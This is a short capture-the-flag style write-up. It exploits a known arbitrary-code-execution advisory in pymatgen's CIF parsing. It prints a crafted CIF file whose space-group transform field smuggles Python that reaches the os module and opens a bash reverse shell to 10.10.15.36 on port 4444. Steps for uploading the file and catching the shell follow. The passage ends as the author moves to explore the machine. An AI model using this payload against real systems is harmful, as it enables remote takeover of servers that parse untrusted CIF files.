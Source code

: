 Found an Arbitrary code execution, here's the repository: [here](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

In order to exploit this vulnerability, we need to reproduce the following steps:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.15.36/4444 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

```ad-hint
1. Create a file with the contents shown above.
2. Upload the file.
3. Click view and have a listener set on the port we specified.
4. Get the connection.


##### Output
---

```

Nice, let's [stabilize our shell](../../Commands/Shell%20Tricks/STABLE%20SHELL.md):

![Pasted image 20250109164825.png](../../IMAGES/Pasted%20image%2020250109164825.png)

Once we've got our stable shell, let's look around this machine:

